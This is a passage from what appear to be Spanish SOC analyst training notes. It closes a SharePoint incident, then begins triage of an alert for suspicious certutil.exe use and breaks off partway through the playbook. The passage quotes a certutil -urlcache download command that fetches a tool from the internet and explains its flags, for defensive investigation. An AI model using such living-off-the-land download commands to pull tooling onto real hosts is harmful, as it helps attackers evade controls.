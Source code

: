 ### Acciones Destacadas y Lecciones Aprendidas

- La rápida identificación y contención del dispositivo afectado fueron cruciales para mitigar el impacto del ataque.
- Se identificó la necesidad de una escalada a Tier 2 para una análisis más detallado por un analista más experimentado, dado el éxito del ataque y la gravedad de la vulnerabilidad.

### Mejoras y Estrategias Preventivas

- Se recomienda actualizar todas las instancias de Microsoft SharePoint Server afectadas a la última versión para mitigar esta vulnerabilidad.
- Implementar una vigilancia más estricta de los accesos a URLs críticas dentro de los servidores para detectar y responder a actividades sospechosas más rápidamente.


_________________


## Incidente 7 SOC163: Uso Sospechoso de Certutil.exe

### Descripción del Incidente

El alerta SOC163 se refiere al uso sospechoso de `certutil.exe` en un entorno Windows, detectado como EventID 113. Este comando específico es conocido por su capacidad para gestionar certificados y configuraciones relacionadas en Windows, pero también puede ser usado para descargar archivos de internet, lo cual puede ser explotado por atacantes para introducir malware o herramientas de hacking en el sistema.

### Detección

#### Playbook:

1. **Recolección de Datos:**

   - Dirección IP : 172.16.17.22
   - Hostname: EricProd
   - Binary Path : C:/Windows/System32/certutil.exe
   - Comando: ``certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip``


- **Certutil.exe**: Herramienta de línea de comandos en Windows usada para gestionar certificados.
- **URLcache**: Utilizado para mostrar o eliminar las entradas de caché de URL.
- **-f**: Parámetro que fuerza la descarga de la URL especificada y actualiza la caché.

2. **Determinar actividad sospechosa**
   - Usando el panel de administración de registros, se confirmó que el host 172.16.17.22 haya accedido a las URL sospechosas. Se ha detectado actividad sospechosa en el equipo de EricProd.

![image](https://github.com/PlacidoDiaz/Notas-PT/assets/86500067/4126b48b-3a0b-4b7e-8867-2225f3dfd136)

![image](https://github.com/PlacidoDiaz/Notas-PT/assets/86500067/b87f53f7-35b1-4feb-b61f-db18a6654dd5)

![image](https://github.com/PlacidoDiaz/Notas-PT/assets/86500067/75d7c126-0cba-47af-9832-860454feb10f)
